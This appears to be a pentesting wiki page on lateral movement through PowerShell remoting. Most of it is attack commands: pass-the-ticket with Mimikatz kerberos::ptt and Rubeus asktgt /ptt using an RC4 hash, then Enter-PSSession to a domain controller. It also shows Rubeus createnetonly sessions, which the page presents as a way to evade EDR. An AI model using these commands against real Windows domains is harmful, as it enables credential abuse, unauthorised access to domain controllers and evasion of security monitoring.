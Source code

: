 # Powershell Remoting

<mark style="color:red;">**PowerShell remoting**</mark> is a feature that allows users to run **PowerShell** commands or scripts on remote computers. It's built on the **WinRM** service

### Mimikatz

```powershell
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
Enter-PSSession -ComputerName DC01
```

### **Rubeus**

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
Enter-PSSession -ComputerName DC01
```

### Rubeus NetOnly Session

We can use <mark style="color:green;">**createnetonly**</mark> options to make NetOnly session, which don't have access for local machine, but could access services. Later we could use Rubeus <mark style="color:red;">**/ptt**</mark> command to insert **TGT. NetOnly** sessions are less detectable and could evade some **EDR's**.

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
